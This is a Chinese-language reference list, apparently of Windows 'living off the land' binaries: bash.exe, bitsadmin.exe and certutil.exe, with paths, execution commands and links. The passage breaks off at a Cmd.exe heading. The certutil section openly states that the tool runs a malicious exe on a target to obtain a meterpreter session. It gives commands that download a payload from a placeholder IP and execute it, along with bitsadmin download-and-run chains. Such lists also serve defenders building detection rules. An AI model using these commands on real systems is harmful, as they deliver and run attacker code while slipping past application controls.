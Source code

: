 文件路径:
```
C:\Windows\System32\bash.exe
C:\Windows\SysWOW64\bash.exe
```
- 执行方式：
```
bash.exe -c calc.exe
```
- 参考资料：
```
https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/microsoft-recommended-block-rules
```
## Bitsadmin.exe
- 使用说明：
用于管理后台文件传输的程序。

文件路径:
```
C:\Windows\System32\bitsadmin.exe
C:\Windows\SysWOW64\bitsadmin.exe
```
- 执行方式：
```
bitsadmin /create 1 & bitsadmin /addfile 1 c:\windows\system32\cmd.exe c:\data\playfolder\cmd.exe & bitsadmin /SetNotifyCmdLine 1 c:\data\playfolder\cmd.exe NULL & bitsadmin /RESUME 1 & bitsadmin /Reset
```
下载文件
```
bitsadmin /create 1 bitsadmin /addfile 1 https://live.sysinternals.com/autoruns.exe c:\data\playfolder\autoruns.exe bitsadmin /RESUME 1 bitsadmin /complete 1
```
- 参考资料：
```
https://www.slideshare.net/chrisgates/windows-attacks-at-is-the-new-black-26672679 - slide 53
https://www.youtube.com/watch?v=_8xJaaQlpBo
https://gist.github.com/api0cradle/cdd2d0d0ec9abb686f0e89306e277b8f
```
## Certutil.exe
- 使用说明：

Certutil.exe是一个命令行程序，作为证书服务的一部分安装。我们可以使用此工具在目标计算机上执行我们的恶意exe文件以获取meterpreter会话。

文件路径:
```
C:\Windows\System32\certutil.exe
C:\Windows\SysWOW64\certutil.exe
```
- 执行方式：
```
certutil -urlcache -split -f http://x.x.x.x/msf a.exe && a.exe
certutil.exe -urlcache -split -f http://x.x.x.x/x.jar &&java -jar x.jar
certutil.exe -verifyctl -f -split http://7-zip.org/a/7z1604-x64.exe 7zip.exe
certutil -encode inputFileName encodedOutputFileName
certutil -decode encodedInputFileName decodedOutputFileName
```
- 参考资料：
```
https://twitter.com/Moriarty_Meng/status/984380793383370752
https://twitter.com/mattifestation/status/620107926288515072
https://twitter.com/egre55/status/1087685529016193025
```
## Cmd.exe
- 使用说明：